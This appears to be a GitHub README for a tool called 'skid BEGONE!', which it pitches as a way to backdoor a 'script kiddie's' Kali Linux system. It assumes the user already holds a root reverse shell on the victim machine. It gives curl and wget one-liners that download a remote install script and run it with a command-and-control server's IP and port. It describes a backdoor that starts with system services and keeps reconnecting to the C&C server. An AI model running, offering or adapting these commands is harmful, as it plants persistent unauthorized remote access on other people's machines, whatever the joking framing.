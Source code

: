 # skid BEGONE!

How to backdoor a script kiddie's Kali Linux install within seconds.

This assumes that the skid is at [peak mt. stupid](DK-effect.png) and thinks that the ping command can DDOS NASA's supercomputers.

## Using the backdoor

### Preconditions

- skid must be a wannabe hacker (see assumption above)
- you must obtain a root reverse-shell

### Actually running the script

```sh
curl -sSL https://raw.githubusercontent.com/GermanBread/skid-begone/master/install.sh > /tmp/install.sh
bash /tmp/install.sh <IP OF THE C&C server> <FREE PORT ON THE C&C SERVER>
```

alternatively with wget:

```sh
wget -qq https://raw.githubusercontent.com/GermanBread/skid-begone/master/install.sh -O /tmp/install.sh
bash /tmp/install.sh <IP OF THE C&C server> <FREE PORT ON THE C&C SERVER>
```

By default the backdoor will start alongside other system services. If the service can't connect to the command and control server, it will wait for a few seconds and reconnect immediately after.

